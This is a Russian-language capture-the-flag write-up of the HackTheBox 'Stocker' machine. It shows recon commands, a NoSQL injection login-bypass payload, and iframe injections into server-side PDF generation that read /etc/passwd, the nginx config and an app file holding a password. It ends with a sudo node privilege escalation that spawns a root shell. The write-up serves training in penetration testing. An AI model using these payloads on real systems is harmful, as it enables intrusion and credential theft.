


# Stocker

:white_check_mark:  [**Json_auth_bypass**](#Json_auth_bypass)

:white_check_mark:  [**Skia_pdf_XSS**](#Skia_pdf_XSS)

:white_check_mark:  [**Node_to_js_file(privesc)**](#Node_to_js_file(privesc))

___

## Port scan
Сканируем ip командой:
```
nmap -sC -sV stocker.htb
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3d12971d86bc161683608f4f06e6d54e (RSA)
|   256 7c4d1a7868ce1200df491037f9ad174f (ECDSA)
|_  256 dd978050a5bacd7d55e827ed28fdaa3b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-generator: Eleventy v2.0.0
|_http-title: Stock - Coming Soon!
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Page

Главная страница **stocker.htb**:


Попробуем найти директории дааного сайта:

```
gobuster vhost -u http://stocker.htb -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -t 50 --append-domain
```

```
Found: dev.stocker.htb Status: 302 [Size: 28] [--> /login]
```



Добавим поддомен в /etc/hosts.

<a name="Json_auth_bypass"></a>

## Json auth bypass

Перейдем по url и попадем на http://dev.stocker.htb/login.


Введем случайные данные, отправим запрос и перехватим его.


Изменим Content-Type на aplication/json и введем null в поля имени пользователя и пароля в формате json.

```
{"username": {"$ne": null}, "password": {"$ne": null} }
```


<a name="Skia_pdf_XSS"></a>

## Skia pdf XSS

Обойдя панель логина, мы попадаем на страницу на которой расположены товары, которые мы можем добавить в корзину.


Добавим пару товаров в корзину.


Оформив заказ, мы можем обнаружить окно с ссылкой на pdf документ заказа.


Скачаем документ и проанализируем его с помощью exiftool.

```
exiftool document.pdf
```


Мы можем заметить использование графической библиотеки Skia при создании pdf документа.

Из данной [статьи](https://www.triskelelabs.com/blog/extracting-your-aws-access-keys-through-a-pdf-file) мы можем понять, что мы модем использовать уязвимость XSS для получения данных.


Снова перезватим запрос оформления заказа и попробуем открыть файл /etc/passwd.

```
<iframe src=\"file:///etc/passwd\"></iframe>
```


По итогу мы получили содержимое файла.


Окно слишком маленькое, чтобы мы могли узнать пользователей, для этого модифицируем полезную нагрузку.

```
<iframe src=file:///etc/passwd height=1000px width=800px</iframe>
```


Мы нашли пользователя angoose. Используя wappalyzer, мы можем обнаружить что сайт поднят на nginx. Попробуем открыть конфиг nginx.

```
<iframe src=file:///etc/nginx/nginx.conf height=1000px width=800px</iframe>
```


Мы можем заметить что корневой директорией сайта является /var/www/dev.

На сайте так же используется NodeJS, попробуем использовать названия файлов app/main/index с добавлением расширения .js.

Перебрав данные имена файлов, у нас получится открыть файл index.js.

```
<iframe src=file:///var/www/dev/index.js height=1000px width=800px</iframe>
```



В файле мы можем найти пароль пользователя.

<a name="Node_to_js_file(privesc)"></a>

## Privesc

Попробуем подключиться по ssh с именем пользователя angoose.


Просмотрим имеющиеся права на импользоание команд, командой sudo -l.


У нас есть доступ от sudo к /usr/bin/node и файлам с расширением .js в директории /usr/local/scripts/

На сайте [GTFOBins](https://gtfobins.github.io/gtfobins/node/) мы можем найти способ эксплюатации уязвимости.


В домашней директории пользователя создадим файл с расширением .js и внесем в него данный код, немного его изменив.

```
nano rev.js

const rev = require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})
```

Используем следующую команду для эксплуатации уязвимости.

```
sudo node /usr/local/scripts/../../../../../../home/angoose/rev.js
```


Мы получили root.